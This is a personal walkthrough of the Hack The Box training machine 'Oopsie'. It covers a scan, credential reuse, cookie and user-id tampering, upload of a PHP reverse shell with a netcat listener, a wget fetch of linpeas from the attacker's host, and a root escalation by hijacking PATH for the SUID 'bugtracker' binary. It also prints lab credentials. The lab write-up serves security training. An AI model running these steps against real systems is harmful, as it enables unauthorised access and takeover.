

# HTB - Oopsie

Oopsie is the second HTB machine in *Starting Point*. Like *Archetype*, it's labelled as *Very Easy*, let's see for ourselves:

Once again, we will start our attack with an Nmap scan with the following tags: `-sC` (to tell Nmap to use it's default scripts), `-sV` (to get more information about the services running on the different ports of the machine) and using `-oN` we save the scan in a file called `initial`. Our scan returns:


We can see ssh running on port `22` and http on `80`. We identify this box as a Linux machine.

We also run an aggressive scan on all ports by adding the following tags: `-A` (tells nmap to run an aggressive scan) and `-p-` (the scan runs on all ports).


As you can see, we do not have anymore information.

Okay so let's take a look at the website on port `80`. We do not see anything interesting on it's homepage and it doesn't look like it's linking to anywhere else. However, when we take a look at the source code, we find a subdirectory: `cdn-cgi/login` and if we go to there, we see that it is indeed a login page:


Before trying to enter credentials, let's run gobuster on the website to see if there is anything else besides `cdn-cgi/login`. We run gobuster with `-u` to specify the url and `-w` to specify the wordlist, we are going to use the `directory-list-2.3-medium.txt` from `dirbuster`. We get the following output after some time:


While gobuster was running, I tried to look for interesting information `cdn-cgi/login`'s sourcepage but nothing jumped out so I went back to the homepage and saw that it mentionned MegaCorp which is the same company present in `Archetype` so I decided to try using some of the credentials that we found on that box. `admin:MEGACORP_4dm1n!!` worked and I was able to login. I got redirected to `cdn-cgi/login/admin.php`:


    - `cdn-cgi/login/admin.php?content=accounts&id=1`:

        Account subpage:

        

    - `cdn-cgi/login/admin.php?content=branding&brandId=10`:

        Branding subpage:

        

    - `cdn-cgi/login/admin.php?content=clients&orgId=1`:

        Client subpage:

        

    - `cdn-cgi/login/admin.php?content=uploads`:

        Upload subpage:

        

    -> review: it seems to be a database form where we can pick and choose information to get, it seems that we need to find a way to access upload so we can upload a reverse shell

    - Branding: we also get info for an id of `1`

    - Requests in the Upload Page:

        

        Cookie info: `role:"admin";user:"34322"` 

        -> tried modifying `role` value to `superadmin` and `super admin` but didn't work maybe it's because the user is staying the same so we need to find the user id of the superadmin

        -> tried changing the `user` value to `0` and it redirected us to the login page

        ->if we change the url `id` to `34322` in the Accounts page bbut doesn't give us a value

        ->we can try using burp to find the correct id number:

        - Intruder (`Sniper`) on `id` using payload number `1-63`:

            

            -> using ID `30`:

            

            Found userID `86575`

- Uploads directory:

    - Using `user:86575`:

        

    - On our attack machine:

        `cp /usr/share/webshells/php/php-reverse-shell.php ./`

        Modify IP address and port

        `nc -lnvp 1234`

    - On website:

        We upload the file, however we need to find the location of the uploads

        If we look at the gobuster output from before we see the `uploads` directory. Run `uploads/php.php` and get a revshell 

        

- Privesc:

    - `home/robert/user.txt`

    - Get a tty shell: `python3 -c 'import pty; pty.spawn("/bin/sh")'`

    -* Then `Ctrl + Z` -> `stty raw -echo` -> `fg`* -> doesn't work actually, taken from [https://medium.com/bug-bounty-hunting/beginner-tips-to-own-boxes-at-hackthebox-9ae3fec92a96](https://medium.com/bug-bounty-hunting/beginner-tips-to-own-boxes-at-hackthebox-9ae3fec92a96)

    -> `robert` and `www-data` has a password so can't move to the `robert` user or use `sudo -l`

    - Get linpeas:

        - Host a webserver with linpeas: `sudo python3 -m http.server 80`

        - On the target: `wget http://10.10.14.217/linpeas.sh`

        -> doesn't work, permission denied

    -> we will need to do some manual enumeration to find privesc lead

    - We take a look at `var/www/html/cdn-cgi/login/db.php`:

        

        -> `robert:M3g4C0rpUs3r!`
            
        -> database name: `garage`

    - We login with ssh as `robert`, no need for the reverse shell anymore ;)

    - Trying `sudo -l` -> robert can't run sudo on the machine

    - `cat /etc/passwd`:

        

        -> mysql user but has `/bin/false`: `a binary that immediately exits, returning false, when it's called, so when someone who has false as shell logs in, they're immediately logged out when false exits.` -> they do not have access to a shell tho

    - `find / -type f -perm /u=s 2>/dev/null`: find SUIDs

        

        -> `bugtracker` looks interesting
    
    - Bugtracker:

        - `file /usr/bin/bugtracker`:

            

            -> we see gibberish if we cat the file

        - `/usr/bin/bugtracker`:

            

        - `strings /usr/bin/bugtracker`:

            

            -> runs a cat in it's relative path instead of its absolute so we can modify the path to point to another cat file that we created and hijacked to run `/bin/bash` 

        - Privesc steps:

            ```bash
            export PATH=~/:$PATH
            cd ~/
            echo '/bin/bash' > cat 
            chmod +x cat
            /usr/bin/bugtracker
            ```

            -> normally we would do it in `/tmp` but since there is already a file there we use robert's home directory: `~/`

            -> after doing this we get root :), note: we need to changethe `PATH` bac to its previous state, to be able to run  `cat` correctly or just to `/bin/` or run directly `/bin/cat`

- Filezilla:

    

    -> creds: `ftpuser:mc@F1l3ZilL4`


      

